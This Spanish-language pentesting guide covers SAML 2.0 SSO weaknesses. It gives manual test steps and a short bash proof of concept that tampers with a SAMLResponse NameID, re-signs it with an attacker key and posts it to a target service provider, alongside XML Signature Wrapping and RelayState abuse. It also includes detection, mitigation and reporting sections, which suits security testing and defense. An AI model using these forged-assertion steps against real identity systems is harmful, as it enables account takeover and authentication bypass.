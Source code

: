 # SAML: Conceptos y Riesgos

## Resumen

**Qué es:** Security Assertion Markup Language (SAML) es un estándar XML para intercambiar datos de autenticación y autorización entre Identity Provider (IdP) y Service Provider (SP).
**Por qué importa:** Implementaciones incorrectas de SAML provocan account takeover, bypass de autenticación, firmas XML inseguras y redirecciones maliciosas.
**Cuándo aplicarlo:** Importante en pentests de aplicaciones corporativas que usan SSO empresarial con SAML, como Active Directory Federation Services (ADFS) o Azure AD.

## Contexto

**Supuestos:**

- La aplicación usa SAML 2.0 para SSO entre un Identity Provider y un Service Provider.
- Acceso a interceptar y modificar mensajes SAML (`SAMLRequest`, `SAMLResponse`) con Burp Suite u otras herramientas.
- Herramientas: Burp Suite XML Tamper, SAML Raider, SAMLTool, xmlstarlet, opensaml utilities.
- Implementaciones evaluadas: ADFS, Shibboleth, OneLogin SAML Toolkits (Java, Python, PHP).

**Límites:**

- Excluye SAML 1.1 y OAuth/OIDC.
- Enfoque en pruebas black/grey box.

## Metodología

1. Descubrimiento de endpoints SSO y ACS (`SAMLRequest`, `SAMLResponse`).
2. Análisis de metadata XML de IdP y SP.
3. Validación de firma XML en Response y Assertion.
4. Pruebas de manipulación de `RelayState` y `Destination`.
5. Ataques de firma: XML Signature Wrapping, XPath injection.
6. Replay de assertions antes de su expiración.
7. Modificación de atributos (`NameID`, roles, grupos).

**Checklist de verificación:**

- Firmado y validado Response completo (Assertion+Response).
- Validación estricta de `Destination` y `AssertionConsumerServiceURL`.
- Protección contra XML Signature Wrapping.
- Uso de HTTPS y certificados válidos.
- Control de expiración: `NotBefore` y `NotOnOrAfter`.

## Pruebas Manuales

**1. Extracción de metadata**

```bash
curl -o idp-metadata.xml https://idp.victima.com/metadata
xmlstarlet sel -t \
  -m "/EntityDescriptor/IDPSSODescriptor/SingleSignOnService" \
  -v "@Location" -n idp-metadata.xml
```

**2. Modificación de SAMLResponse**

- Interceptar y decodificar Base64.
- Cambiar `<NameID>` a `admin@victima.com`.
- Refirmar XML con clave atacante.
- Reenviar al SP y observar acceso admin.

**3. XML Signature Wrapping**

- Insertar assertion maliciosa antes de la firma legítima.
- Ajustar referencias y nodos de firma.
- Enviar al SP y verificar validación incorrecta.

**4. RelayState Abuse**

- Cambiar `RelayState` a URL atacante.
- SP redirige al atacante tras SSO.

## PoC Automatizada

```bash
# 1. Decodificar SAMLResponse
echo "<SAMLResponse>..." | base64 -d > response.xml

# 2. Modificar NameID
xmlstarlet ed \
  -u "/samlp:Response/saml:Assertion/saml:Subject/saml:NameID" \
  -v "admin@victima.com" response.xml > tampered.xml

# 3. Refirmar con openssl
openssl dgst -sha256 -sign private_key.pem tampered.xml | base64 -A > signature

# 4. Insertar firma y codificar
# (Reemplazar Signature value y References URI)

# 5. Enviar al SP
curl -X POST https://sp.victima.com/ACS \
  -d "SAMLResponse=$(base64 -w0 tampered.xml)&RelayState=abc"
```

## Explotación y Automatización

- **XPath Injection:** Manipular expresión XPath en firmas.
- **Replay Attacks:** Reenviar SAMLResponse antes de expiración.
- **Certificate Confusion:** Metadata maliciosa con certificado atacante.

## Impacto

- **Account Takeover:** Acceso total como cualquier usuario, incluidos admin.
- **Bypass MFA:** Si IdP no verifica contexto de autenticación.
- **SSO Phishing:** Usando RelayState para redirecciones maliciosas.

**Mapeo OWASP/CWE:** A2:2021 Broken Authentication; CWE-345; CWE-352.

## Detección

- Logs de discrepancias en `Issuer`, `Destination`, `ACS URL`.
- Alertas de firma inválida o múltiples assertion dentro de un mismo Response.
- Monitoreo de `RelayState` apuntando a dominios externos.

## Mitigación

- Firmar y verificar todo el mensaje SAML (Response+Assertion).
- Usar referencias de firma basadas en ID y XPath.
- Validar `Destination` y `AssertionConsumerServiceURL` contra metadata.
- Implementar nonce y control de expiración (`NotBefore`, `NotOnOrAfter`).
- Deshabilitar metadata dinámica o validar manualmente antes de importar.

## Errores Comunes

- Firmar solo Assertion, no Response.
- No validar atributos de tiempo (`NotOnOrAfter`).
- Confundir URIs en metadata versus mensajes.
- Omitir verificación de firmas en nodos secundarios.

## Reporte

**Título:** XML Signature Wrapping permite account takeover en SAML SSO
**Impacto:** Bypass de autenticación y account takeover sin credenciales.
**Pasos:**

1. Capturar SAMLResponse legítima.
2. Insertar assertion maliciosa y ajustar firma.
3. Reenviar al SP.
4. Verificar acceso admin sin MFA.

**Evidencias:** Petición POST con SAMLResponse modificada y respuesta 200 OK.
**Mitigación:** Firma completa, validación estricta de metadata y endpoints.


[^1]: https://ppl-ai-code-interpreter-files.s3.amazonaws.com/web/direct-files/0bb7cf84c92d1211e156a46c3c8c414a/fb2ce8ae-fb2c-49af-a6e1-33ab97d1c728/e2728eac.md
